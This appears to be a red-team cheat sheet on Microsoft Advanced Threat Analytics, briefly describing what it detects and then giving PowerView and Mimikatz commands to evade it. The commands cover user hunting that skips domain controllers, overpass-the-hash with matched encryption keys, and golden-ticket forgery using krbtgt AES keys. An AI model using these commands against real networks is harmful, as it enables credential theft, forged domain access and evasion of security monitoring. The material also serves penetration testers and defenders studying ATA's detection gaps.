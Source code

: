 # Microsoft ATA (Advanced Threat Analytics).
---
# Navigation
- **[[#What's ATA]]**
- **[[#Useful for detecting]]**
- **[[#Bypass user hunting detection]]**
- **[[#Bypass Overpass-the-hash detection]]**
- **[[#Bypass Golden ticket detection]]**

---
# What's ATA?
**Advanced Threat Analytics** (ATA) is an on-premises platform that helps protect your enterprise from multiple types of advanced targeted cyber attacks and insider threats.
- Traffic destined for Domain Controllers is mirrored to ATA sensors and a user activity profile is build over time - use of computers,Credentials,log on machines ..etc
- Collects Event `4776` (The DC attempted to validate the credentials for an account) to detect credential replay attacks.
- Can detect behavior anomalies.
## Useful for detecting 
- **Recon**: Account enum, Netsession enum.
- **Compromised Credentials Attacks**: Brute-Force, High privilege account/service account exposed in clear text, Honey token, unusual protocol (NTLM and kerberoas).
- Credential/Hash/Ticket Replay attacks.

## Bypass user hunting detection
To bypass `Reconnaissance using SMB session enumeration` make sure to exclude the Domain Controller from the enumeration.
```powershell
#Get list of computers
Get-NetComputer
```

```powershell
#Enumerate Users (Powerview module)
Invoke-UserHunter -ComputerFile <ListOfComputersWithoutDC>
```
## Bypass Overpass-the-hash detection
We need to make the encryption type as the one normally used.
```powershell
Invoke-Mimikatz -Command '"sekurlsa::pth /user:<User> /domain:<Domain> /aes256:<aes256> /ntlm:<NTLM> /aes128:<aes128>"'
```
> 1. Putting all `AES256`,`AES128`,`NTLM(RC4)` together reduces chances of detection.
> 2. AES keys can be replaced only on 8.1/2012r2 or 7/2008r2/8/2012 with KB2871997, in this case you can avoid NTLM hash.

## Bypass Golden ticket detection
We need to make the encryption type as the one normally used.
```powershell
Invoke-Mimikatz -Command '"kerberos::golden /user:<User> /domain:<Domain> /sid:<SID> /aes256:<aes256keysofkrbtgt> /id:500 /groups:513 /ptt"'
```
> A Golden ticket using AES keys can be generated from any machine unlike restrictions in case of Over-PTH.
